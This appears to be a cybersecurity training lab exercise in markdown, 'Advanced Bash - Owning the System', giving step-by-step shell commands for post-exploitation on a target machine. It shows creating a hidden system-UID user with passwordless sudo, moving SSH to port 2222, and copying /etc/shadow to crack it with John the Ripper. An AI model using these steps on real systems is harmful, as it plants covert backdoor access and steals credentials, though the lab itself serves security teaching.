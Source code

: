 # Advanced Bash - Owning the System
## Step 1: Shadow People
1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
```
sudo adduser --no-create-home sysd
```
2.	Give your secret user a password:
```
sudo passwd sysd
```
3.	Give your secret user a system UID < 1000:
```
sudo usermod -u 227 sysd
```
4.	Give your secret user the same GID:
```
sudo groupmod -g 227 sysd
```
5.	Give your secret user full sudo access without the need for a password:
```
sudo visudo
```
```
sysd ALL=(ALL:ALL) NOPASSWD=ALL
```
6.	Test that sudo access works without your password:
```
sudo -l
```
```
sudo adduser tester
```
```
sudo cat /etc/shadow
```
***
## Step 2: Smooth Sailing
1.	Edit the sshd_config file:
```
sudo nano /etc/ssh/sshd_config
```
```
Port 2222
```
***
## Step 3: Testing Your Configuration Update
1.	Restart the SSH service:
```
sudo systemctl restart ssh.service
```
2.	Exit the root account:
```
exit 
```
3.	SSH to the target machine using your sysd account and port 2222:
```
ssh sysd@192.168.6.105 -p 2222
```
4.	Use sudo to switch to the root user:
```
sudo su
```
***
## Step 4: Crack All the Passwords
1.	SSH back to the system using your sysd account and port 2222:
```
ssh sysd@192.168.6.105 -p 2222
```
2.	Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
```
sudo su
```
```
cp /etc/shadow /
```
```
john shadow --wordlist=/usr/share/john/password
```
